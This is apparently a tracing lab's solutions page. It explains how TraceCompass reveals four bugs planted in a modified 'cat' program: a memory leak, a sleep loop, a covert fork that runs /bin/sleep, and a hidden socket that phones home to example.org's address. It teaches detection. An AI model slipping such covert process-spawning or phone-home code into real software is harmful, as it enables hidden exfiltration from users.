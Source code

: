 ### Solutions to the Bug Hunt

The `cat` file had 4 more or less obvious problems/issues. This is a teaching use case, meant to show some potential issues in a very very simple program. "Real" issues will be a lot harder to find in a much more complex code base. But the tools are the same.

- - -

#### Bug #1: memory leak

As mentioned in a previous lab, TraceCompass does not claim to be a memory leak finder. `Valgrind` would do a better job in this case and pinpoint the exact line of the leaked memory allocation. But we can observe it in TraceCompass and see where/when in the execution the leak may have happened.

![Bug Hunt Memory Leak](screenshots/memoryLeak.png "Bug Hunt: Memory Leak")

This happens in the `cat.c` file at line 769

```c
769    test = malloc(1000);
770    printf("That's a custom-compiled cat for tutorial purposes %s", test);
771    inbuf = xmalloc (insize + 1 + page_size - 1);
772    test = inbuf;  // Losing my pointer
```

- - -

#### Bug #2: An "optimization loop" of usleep

When developing, it's often convenient to add some latency at some places to avoid a race condition or make sure some other condition is met. The techniques used are sometimes... dubious... One of them is adding sleeps in the code. We can see those with TraceCompass. The critical path shows a `Timer` state for those and the thread is blocked.

![Bug Hunt Optimization Loop](screenshots/optimizationLoop.png "Bug Hunt: Optimization Loop")

This happens in the `cat.c` file in the `next_line_num` function at line 175:

```c
132    static void
133    next_line_num (void)
134    {
         ....
174      // Optimization loop, remove when we need more perf ;-)
175      usleep(100);
176    }
```

- - -

#### Bug #3: Spawning a process!

Most complex applications today are multi-threaded so we expect to see a lot of children to a given process. But could one of those children be a malicious one? TraceCompass shows all the hierarchy of processes and threads, so in doubt, it is possible to examine one in particular and see what it does.

In our case, `cat` is not expected to have any children, but it has, and more than one.

* Some are named `cat-ust`. Looking at their critical path, we see it interacts with `lttng-consumerd`. Since we are explicitly tracing `cat` with `lttng-ust`, this behaviour would be normal in this case. Everythin happens before the call to main, so it's the libraries preloading.

* We also observe a `sleep` process being spawned during execution, in the middle of a `next_line_num` function. That is not normal. `sleep` is harmless here, but a malicious application could start a key logger process for instance.

![Bug Hunt Spawn Process](screenshots/spawnProcess.png "Bug Hunt: Spawn Process")

This happens in the `cat.c` file in the `next_line_num` function from line 136 to 158:

```c
136    if ((endp - line_num_start) == 2 && execDone == 0) {
137      // This file looks long enough, let's subrepticiously start a thread hehehe
138      pid_t process = fork();
139
140      if (process < 0){
141        //fork error, oops, just be quiet...
142      }
143      if (process == 0){
144        char cmd_exec[11] = "/bin/sleep";
145        char time_sec[2] =  "5";
146        char* argv[2];
147
148        argv[0] = cmd_exec;
149        argv[1] = time_sec;
150
151        execv("/bin/sleep", (char *[]){ cmd_exec, time_sec, NULL });
152        fprintf(stderr, "\n********************\n");
153        fprintf(stderr, " Unable to exec %s: %d\n", argv[0], errno);
154        fprintf(stderr, "********************\n");
155        exit(1);
156      }
157      execDone = 1;
158    }
```

- - -

#### Bug #4: Subrepticious Phone Home

Computer systems, from smart phones to data centers, store a lot of very sensitive/personal data, that can be of interest to many attackers. It may be tempting for some attackers to add some code snippets to leak this precious data. With TraceCompass and the critical path, we can observe network connections and messaging. Of course, the implementation here is naive. If I were to write such a code, I'd make sure it is not obvious like this one, but... not all attackers are smart or know about this?

Here, we do not expect `cat` to do any network connection, unless we are catting a file from the network, which we aren't. So those network connections are fishy.

![Bug Hunt Phone Home](screenshots/phoneHome.png "Bug Hunt: Phone Home")

This happens in the `cat.c` file in the `cat` function from line 513 to 533:

```c
513    if (bpin + 5 < eob && *bpin == ' ' && *(bpin + 1) == 'c' && *(bpin + 2) == 'a' && *(bpin + 3) == 't' && *(bpin + 4) == ' ') {
514      // omg, he said ' cat ', we need to tell the boss
515      int sockfd = 0,n = 0;
516      char sendBuff[1024] = "Hey boss, this user said cat, that's not right";
517      struct sockaddr_in serv_addr;
518
519      if((sockfd = socket(AF_INET, SOCK_STREAM, 0))> 0)
520        {
521          serv_addr.sin_family = AF_INET;
522          serv_addr.sin_port = htons(80);
523          serv_addr.sin_addr.s_addr = inet_addr("93.184.216.34");      // www.example.org
524
525          if(connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr))>=0)
526            {
527              n = write(sockfd, sendBuff, sizeof(sendBuff)-1);
528              if (n < 0) {
529                // Couldn't tell boss, that's too bad
530              }
531            }
532        }
533    }
```
